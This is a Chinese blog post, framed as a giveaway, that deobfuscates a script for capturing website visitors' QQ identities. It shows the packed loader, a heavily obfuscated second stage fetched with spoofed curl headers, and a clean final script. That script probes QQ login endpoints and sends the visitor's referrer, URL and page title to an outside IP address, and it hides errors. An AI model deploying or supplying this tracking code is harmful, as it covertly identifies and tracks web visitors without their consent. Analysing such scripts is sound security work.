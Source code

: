 ```yaml
---
layout: post
title: "福利:获取访客QQ的JS实现"
description: "福利:获取访客QQ的JS实现"
category: scripts
tags: ["Mysql"]
---
```


一好友发给我个可以获取访客QQ的JS让我decode，结果在本文底部，不用谢...

##原始代码:

<pre>
eval(function(p, a, c, k, e, d) {
    while (c--) {
        if (k[c]) {
            p = p.replace(new RegExp('\\b' + c.toString(a) + '\\b', 'g'), k[c])
        }
    }
    return p
} ('7 1=2.8("9");1.6="3://5.4.a.i:b/g/?h=f";2.e("c")[0].d(1);', 19, 19, '|s|document|http|28|115|src|var|createElement|script|238|8080|head|appendChild|getElementsByTagName|135|qqdl|jsuid|63'.split('|')))
</pre>
##解密思路:

<pre>
var s = document.createElement("script");
s.src = "http://115.28.238.63:8080/qqdl/?jsuid=135";
document.getElementsByTagName("head")[0].appendChild(s);
</pre>

使用curl "http://115.28.238.63:8080/qqdl/?jsuid=135" 被302指向到about:blank，看来对方是有做了User-Agent和Referer检测。curl构造并加上-A和-e选项后果不其然得到了如下结果

<pre>
/*TpWQpv6hX*/var/*tRXJa*/jbXzxsJZqZ/*hXaIq1CPBE*/=/*jwtwxhWVA*/\u0075\u006e\u0065\u0073\u0063\u0061\u0070\u0065;/*EQkMd2z*/var/*jZZAkepw*/hZPRE6Ri/*hB7qmg1W*/=/*qbJXkz*/\u0065\u0076\u0061\u006c;/*T3zJc4U1*/hZPRE6Ri/*VJPYAg*/(jbXzxsJZqZ/*VJPYAg*/("eval/*CslTOEfcM*/%28/*PcnyTyaWqAA*/function/*JmY5I*/%28/*bwwKOIusdA*/p%2Ca%2Cc%2Ck%2Ce%2Cd%29%7Be%3Dfunction/*IriRFHA*/%28/*Cnj8NsO0gJy*/c%29%7Breturn/*FUpmzXGS06d*/%28/*mmnTUONs*/c%3Ca%3F%27%27%3Ae/*OqFe5vlFUdg*/%28/*pt4g0N7X*/parseInt/*yc3QWNuz5*/%28/*jmRqid*/c%2Fa%29%29%29%2B/*GXFUtYdo*/%28/*U11RIvTBbFf*//*VbJgnqw*/%28/*rY9iuTB*/c%3Dc%25a%29%3E35%3FString.fromCharCode/*PPdRG*/%28/*ufqhGsMMPHN*/c%2B29%29%3Ac.toString/*H1FanZ*/%28/*k7j6zsTewA*/36%29%29%7D%3Bif/*oZQI6n1JZ*/%28/*fCUUuqVH*/%21%27%27.replace/*EUdUQ*/%28/*czHy0jQP*/%2F%5E%2F%2CString%29%29%7Bwhile/*mMdgl3Mswx*/%28/*JNZnT*/c--%29%7Bd%5Be/*XWkNpnd*/%28/*G46sKWHmZO*/c%29%5D%3Dk%5Bc%5D%7C%7Ce/*LqRfOVV*/%28/*E8ba6Yk*/c%29%7Dk%3D%5Bfunction/*dxO19IXsi*/%28/*SvAFUjVBo*/e%29%7Breturn%20d%5Be%5D%7D%5D%3Be%3Dfunction/*k9RW8TW*/%28/*B7FLvjCvRqO*/%29%7Breturn%27%5C%5Cw%2B%27%7D%3Bc%3D1%7D%3Bwhile/*SFlqa5zVxN*/%28/*EN3wLM*/c--%29%7Bif/*BkhbVC*/%28/*lX2EBS*/k%5Bc%5D%29%7Bp%3Dp.replace/*X4L60bS*/%28/*I4XsYk*/new%20RegExp/*xtALABx3LKQ*/%28/*eimzfgbc*/%27%5C%5Cb%27%2Be/*cVkRQ79Fh36*/%28/*qI2U5VwG*/c%29%2B%27%5C%5Cb%27%2C%27g%27%29%2Ck%5Bc%5D%29%7D%7Dreturn%20p%7D/*RLKcbQjd*/%28/*ffFqWloWQv*/%27V/*HX8mPTiAg*/%28/*T6qD9skiv*/37/*mAyFnJTaqfP*/%28/*UOhIyp8E41B*/%22V%2538%2539%253a%2536%2513%2535%2531%2529%2532%251a%253%2529%25x%253%2533%253F%2527%2527%2534%253b%253%253c%2529%2529%2529%252B%2528%253%253j%253k%2529%253l%253m.3i%253%253h%2529%253d.3e%253f%2529%2529%250%253g%2528%2521%2527%2527.1o%2528%252F%255E%252F%2530%2529%2529%252Z%253--%2529%252J%2519%253%2529%255D%252K%25t%255D%251%252L%253%2529%252M%253D%252I%252H%2529%25x%252z%2519%255D%250%255D%252D%251a%2528%2529%25x%2527%255C%252E%252B%2527%250%252G%2510%250%252N%253--%2529%252O%252V%25t%255D%2529%252W%252X.1o%252Y%252U%2528%2527%255C%25J%2527%252T%253%2529%252B%2527%255C%25J%2527%252C%252P%2527%2529%2513%25t%255D%2529%250%252Q%252R%250%2528%2527%252S%2528%2529%254%253n%253D%25D%253A%252F%253o.28.1w.1u%253X%253Y%252F%2522%252%253Z%253D%2540%2522%25d%253W%2528%2529%254%253V%25l%25o.1g%2529%252%253R%25l%25o.1x.1y%2529%252%253S%25l%25o.R%2529%252%25F%253T%252B%2522%253U%2541%2522%257%252B%253D%2522%2512%253D%2522%2542%257%252B%253D%2522%2549%25Q%2522%257%252B%253D%2522%254a%253D%2522%254b%257%252B%253D%2522%2548%253D%2522%2547%257%252B%253D%2522%2543%253D%2522%2544%257%252B%253D%2522%2545%253D%2522%252B%25f%25g%2528%2529%2529.m%2528%2529%252%251m%256.v%2528%255C%25s%255C%2527%2529.B%25n%2529%252%2515%256.O%2528%25z%2522%2529%25e.M%253D%25w%25y%2522%25e.P%25G%25Y.T%25h%2529%25A%2546%2517%253Q%2529%254%253P%253v%25g%2528%2529%253w.1B%253x.m%2528%2529%253y%253u%25H%25H%253t%2529%253p.1d%253q%252B%2522%253D%2522%253r%253s%2529%252B%2522%253z%253D%2522%253C.1p%2528%2529%25A%253L%2517%2529%254%253M%256.1d.1l%25f%253N%2528%2522%2528%255E%251%2520%2529%2522%252y%252B%2522%253D%2528%255B%255E%253B%255D%252A%2529%2528%253B%251%2524%2529%2522%2529%2529%25i%251k%2521%25j%253O%253K%251k%253J%255D%2529%253E%253G%25A%253H%25X%253I%254c%2529%254%252w%25S.a.O%2528%25z%2522%2529%259.M%253D%25w%25y%2522%259.20%253D%251r-8%2522%259.U%255%2528%2529%25b%2511%2529%251b%2511%251n%2529%250%250%259.P%25G%252%251C%256.v%2528%255C%25s%255C%2527%2529.B%25n%2529%251G.1Z%25L%251E.1Y%2529%259.I%251c.p%255%2528%2529%25b%2528%2528%251F.c%251%2514.c%253D%253D%253D%25Z%2522%251%2514.c%253D%253D%253D%25N%2522%2529%2529%25b%25K%2529%251b%25K%251n%2529%250%259.I%251c.p%25j%25i%251H%2526%251A.1h%2529%251D.16%25L%2529%250%250%250%250%25d%251z%2528%2529%254%25F%253D%25D%253A%252F%25E.1W.1j.1i%252F%251I%251v%2512%25Q%2518%2510%2522%252B%25f%25g%2528%2529%2529.m%2528%2529%252%251t%255%2528%2529%251f.u%251s%251J%2529%250%252%252x%255%2528%2529%252n%2528%2529%250%252o%25X%252m%252l%2529%25C%252i%252j%25d%252k%2528%2529%25b%252p%2529%25W%252q%252v%251L%2528%2529%25C%252u%252t%25d%252r%2528%2529%254%252s%25j%25i%252h%252g%2529%253D%253D%251V%2522%2529%251e%251X.q%25r%251e%251U.q%251T%251O%253D%251R%251%251S%253D%2523%2529%251f.1M%2525%2529%252e%2528%2529%25r%254%252f%256.1K%2528%251q%2522%2529%252d.1h.16%252c%2529%250%25C%252a%25d%252b%2528%2529%254%254d%253D%25D%253A%252F%255Y.1j.1i%25E%255V%255T-1N%255Z%2566%2567%2565%2564%2561%2562%2518%253D%2522%252B%25f%25g%2528%2529%2529.m%2528%2529%252%251m%256.v%2528%255C%25s%255C%2527%2529.B%25n%2529%252%2515%256.O%2528%25z%2522%2529%25e.M%253D%25w%25y%2522%25e.1P%253D%251q%2522%25i%25h.c%2529%25k.p%255%2528%2529%25b%25h.c%253D%253D%25Z%2522%251%255v.c%253D%253D%25N%2522%2529%25k.p%25j%255O%2528%2529%250%250%25r%25k.I%255%2528%2529%255N%2528%2529%250%255M.P%2569%25Y.T%25h%2529%2568.U%255%2528%2529%25W%256x%250%256y%2528%2529%256w%25S.1Q%256t%256u%2529%250%2529%2528%2529%253B%2527%256A%256I%252C%2527%251%251%256H%251%256F%256B%256C%251%256D%256q%256g%256e%251%256d%256a%256b%256c%256h%256o%256n%256m%256j%256l%256k%254D%254E%251%254F%251%254C%254B%254y%254z%254G%254H%254N%254O%254K%254x%254k%254l%254i%254e%254f%254g%254m%254n%254t%254u%254v%254s%254r%254o%254q%254Q%254R%255h%255i%255j%255g%255f%255c%255d%255e%255k%255l%255r%255s%255q%255p%255m%255o%255b%255a%254Z%254V%254S%254T%254U%2550%2551%2559%2556%2555%2552%2553%2554%255K%2558%2557%254W%254Y%254X%255n%254p%254j%254w%254J%254I%254L%254M%254P%254A%255t%255u%256E%256p%256i%256r%256G%256z%256s%256v%256f%255L%255J%255P%255I%255H%255x%255w%255y%255z%255G%255F%255A%255Q%251%255R%2563%2560%251%255U%2527.5S%2528%2527%251%2527%2529%255W%252C%255X%250%2529%2529%254h%22%29%29%27%2C62%2C417%2C%277D%7C7C%7C3B3%7C28c%7C7B3%7C3D5%7C3Da%7C3B7%7C%7C3B9%7C%7C7Bb%7C%7C3B5%7C3B6%7C28g%7C20j%7C286%7C3Bb%7C3De%7C7B6%7C3DC%7C%7C280%7C28a%7C%7C%7C7DJ%7C27s%7C5Bc%7C%7C%7C22Q%7C7Breturn%7C2FL%7C22N%7C7D5%7C%7C7D3%7C22A%7C2F1k%7C207%7C3D7%7C2A15%7C%7C5Cb%7C28E%7C289%7C%7C2219%7C%7C%7C3D1c%7C%7C3Di%7C%7C%7Ceval%7C7Bk%7C287%7C3Bl%7C221a%7C3D1%7C28F%7C2610%7C2Ck%7C7Cw%7C206%7C%7C28o%7C26t%7C5Be%7C3Dfunction%7C7Bu%7C3D9%7C%7C7Bf%7C7Bi%7C%7C%7C%7C%7C28D%7C%7C20l%7C2C18%7Creplace%7C%7C221b%7C2221%7C28z%7C20q%7C%7C3D22%7C%7C%7C%7C20z%7C269%7C%7C20h%7C7Bh%7C2Ch%7C21w%7C3Bh%7C28h%7C3F23%7C2C29%7C%7C3B13%7C%7C%7C28f%7C%7C%7C3D1L%7C7Cf%7C7Db%7C3DS%7C221X%7C%7C3D1G%7C%7C%7C%7C%7C%7C3D1V%7C%7C28G%7C%7C%7C%7C%7C20G%7C20K%7C28y%7C3By%7C3Bz%7C20y%7C28S%7C2825%7C20x%7C3D27%7C20X%7C2C11%7C2Cq%7C7BX%7C3BY%7C28x%7C7Dx%7C20H%7C20f%7C3D0%7C2026%7C3D14%7C209%7C2011%7C2Bo%7C20d%7C%7C%7C%7C3Be%7C5Cw%7C%7C3Bc%7C28e%7C5Bfunction%7C7Bd%7C3Dk%7C7Ce%7C7Dk%7C3Bwhile%7C7Bif%7C27g%7C7Dreturn%7C20p%7C285%7C2Be%7C20RegExp%7C28k%7C7Bp%7C3Dp%7C28new%7C7Bwhile%7C2CString%7C2Cd%7C7Be%7C3Ca%7C3Ae%7C2Ce%7C2Cc%7Cunescape%7C28function%7C28p%7C2Ca%7C28parseInt%7C2Fa%7C3Ac%7CtoString%7C2836%7C3Bif%7C2B29%7CfromCharCode%7C3Dc%7C25a%7C3E35%7C3FString%7C2017%7C2F1v%7C3Ba%7C3Do%7C2B1A%7C28Z%7C2A1z%7C2A24%7C3Dg%7C3Bn%7C28n%7C2B2%7C3B1F%7C%7C%7C2Bn%7C%7C3Bk%7C%7C20e%7C20Y%7C2CF%7C5B2%7C201o%7C201n%7C20D%7C201m%7C29k%7C20n%7C2CZ%7C2012%7C20W%7C3D17%7C3F1D%7C201e%7C2013%7C3A1t%7C2F1r%7C201f%7C221s%7C3D1q%7C2B1f%7C26R%7C2BW%7C26r%7C201C%7C2B12%7C267%7C261E%7C261g%7C2B1e%7C2CE%7C20V%7C7CisLogin%7C7Conload%7C7Celse%7C0A%7C7CisLoginTimeID%7C7Chref%7C7Consuccess%7C7Conerr%7C7CdynamicLoad%7C7Cjavascript%7C7Ctitle%7C7Clocation%7C7Cdata3%7C7Ctext%7C7Csrc%7C7Ctype%7C7Cscript%7C7CcreateElement%7C7C1000%7C7Carr%7C7Cthis%7C7CisSubmited%7C7Cexpires%7C7CgetElementsByTagName%7C7CsetTimeout%7C7Conreadystatechange%7C7Cerr%7C7CHEAD%7C7Ccheckscript%7C7CinsertFrame%7C7CsetTime%7C7Cescape%7C7CencodeURIComponent%7C7CSetCookie%7C7Caction%7C7Chttp%7C7Citem%7C7Cmeishi%7C7CappendChild%7C7Conerror%7C7Ci_uid%7C7Creferrer%7C7CparentNode%7C7Ci_referrer%7C7C8080%7C7C115%7C7C63%7C7Ccookie%7C7Ccom%7C7Cqq%7C7CGetCookie%7C7Cunescape%7C7CtoGMTString%7C7CRegExp%7C7Cmatch%7C7C135%7C7Cqqdl%7C7Capp%7C7C10003938998%7C7Ccheckloginscript%7C7Cuid%7C7Csucc%7C7Ci_url%7C7Cvalue%7C7CCrossUrl%7C7Cvsrc%7C7Ci_title%7C7CnewSubmit%7C7C_init_send_by_iframe%7C7Ctrue%7C7Ccomplete%7C7C238%7C7Cloaded%7C7C0x0%7C7Ci_php%7C7C60%7C7CremoveChild%7C7Cdata0%7C7Cyx%7C7C6%7C7Cundefined%7C7Cdata%7C7CfirstChild%7C7CinsertBefore%7C7Cuser%7C%7C%7C%7C%7C7CUTF%7C7Ccharset%7C7C1026%7C7C3000%7C7Clc%7C7CsaveQQ%7C7C365633133%7C7D6%7C7BH%7C3BH%7C7Chc%7C7Cumod%7C7Ctypeof%7Csplit%7C2F1I%7C7C50%7C2F1H%7C2C0%7C7B%7C2F1J%7C2F1O%7C7Cfalse%7C26d%7C3D1R%7C7CcheckTime%7C3D4%7C261S%7C3F1T%7C3D8%7C7Di%7C3DV%7C7Ccode%7C7Cnew%7C7Cscn_head%7C7Cnull%7C7CreadyState%7C7CsetInterval%7C7Cif%7C7Cwindow%7C7CgetElementById%7C7CgetTime%7C7Cname%7C7Cexp%7C7CoHead%7C7Creturn%7C7CDate%7C7Capps%7C7Cdocument%7C7C1007%7C7Cshow_fel%7C28K%7C2C1U%7C7Cid%7C3BG%7C2014%7C3BK%7C7Cbin%7C2C62%7C7CoScript%7C7Curl%7C7CtempScript%7C7Ccgi%7C7Cfunction%7C7CclearInterval%7C7Cvar%7C2C134%27.split/*rACEJX*/%28/*QoWtCwd*/%27%7C%27%29%2C0%2C%7B%7D%29%29%0A"/*NHBpgpN5Ezp*/)/*OsyzCG7EtMe*//*NHBpgpN5Ezp*/)/*OsyzCG7EtMe*//*GjhHcWPK*///javascript_encode For PHP By som./**/
</pre>

这画面太美...不忍直视啊，说下思路，被/* */包围的都可以去掉，无公害，\u0065\u0076\u0061\u006c 转码之后发现是eval，同理\u0075\u006e\u0065\u0073\u0063\u0061\u0070\u0065对应的是unescape，然后eval替换成document.write尝试输出，或者return p之前可以先输出p。这是常规的解法，但是坑爹的应用在这个里面不行，猜测应该是有对解密做了防范，解密时会检测自身比如代码块的字符数等等。千辛万苦，看结果吧。



##最终结果：
<pre>
(function() {
    var i_php = "http://115.28.238.63:8080/qqdl/";
    var i_uid = "135";
    function _init_send_by_iframe() {
        var i_referrer = encodeURIComponent(document.referrer);
        var i_url = encodeURIComponent(document.location.href);
        var i_title = encodeURIComponent(document.title);
        var url = i_php + "?action=saveQQ";
        url += "&uid=" + i_uid;
        url += "&meishi=10003938998";
        url += "&referrer=" + i_referrer;
        url += "&url=" + i_url;
        url += "&title=" + i_title;
        url += "&r=" + (new Date()).getTime();
        var oHead = document.getElementsByTagName('HEAD').item(0);
        var oScript = document.createElement("script");
        oScript.type = "text/javascript";
        oScript.src = url;
        oHead.appendChild(oScript)
    }
    function SetCookie(name, value) {
        var exp = new Date();
        exp.setTime(exp.getTime() + 2 * 24 * 60 * 60 * 1000);
        document.cookie = name + "=" + escape(value) + ";expires=" + exp.toGMTString()
    }
    function GetCookie(name) {
        var arr = document.cookie.match(new RegExp("(^| )" + name + "=([^;]*)(;|$)"));
        if (arr != null) return unescape(arr[2]);
        return null
    }
    function CrossUrl(url, onerr, onsuccess) {
        var tempScript = window.document.createElement("script");
        tempScript.type = "text/javascript";
        tempScript.charset = "UTF-8";
        tempScript.onerror = function() {
            if (onerr) {
                setTimeout(onerr, 0x0)
            }
        };
        tempScript.src = url;
        var scn_head = document.getElementsByTagName('HEAD').item(0);
        scn_head.insertBefore(tempScript, scn_head.firstChild);
        tempScript.onload = tempScript.onreadystatechange = function() {
            if ((!this.readyState || this.readyState === "loaded" || this.readyState === "complete")) {
                if (onsuccess) {
                    setTimeout(onsuccess, 0x0)
                };
                tempScript.onload = tempScript.onreadystatechange = null;
                if (scn_head && tempScript.parentNode) {
                    scn_head.removeChild(tempScript)
                }
            }
        }
    };
    function insertFrame() {
        var url = "http://app.data.qq.com/?umod=user&uid=10003938998&t=1" + (new Date()).getTime();
        var err = function() {
            window.setTimeout(insertFrame, 50)
        };
        var succ = function() {
            newSubmit()
        };
        CrossUrl(url, err, succ)
    }
    var isSubmited = false;
    function newSubmit() {
        if (isSubmited) {
            return
        }
        isSubmited = true;
        _init_send_by_iframe()
    }
    var checkTime = 0;
    function isLogin() {
        var code = null;
        if (typeof(data3) == "undefined") {
            code = data0.err
        } else {
            code = data3.err
        }
        if (code == 1007 || code == 1026) {
            window.clearInterval(isLoginTimeID);
            insertFrame()
        } else {
            var checkscript = document.getElementById("checkloginscript");
            checkscript.parentNode.removeChild(checkscript)
        }
    }
    var isLoginTimeID;
    function dynamicLoad() {
        var vsrc = "http://apps.qq.com/app/yx/cgi-bin/show_fel?hc=8&lc=4&d=365633133&t=" + (new Date()).getTime();
        var oHead = document.getElementsByTagName('HEAD').item(0);
        var oScript = document.createElement("script");
        oScript.type = "text/javascript";
        oScript.id = "checkloginscript";
        if (oScript.readyState) {
            oScript.onreadystatechange = function() {
                if (oScript.readyState == "loaded" || oScript.readyState == "complete") {
                    oScript.onreadystatechange = null;
                    isLogin()
                }
            }
        } else {
            oScript.onload = function() {
                isLogin()
            }
        }
        oScript.src = vsrc;
        oHead.appendChild(oScript)
    }
    window.onerror = function() {
        return true
    };
    dynamicLoad();
    isLoginTimeID = window.setInterval(dynamicLoad, 3000)
})();
</pre>


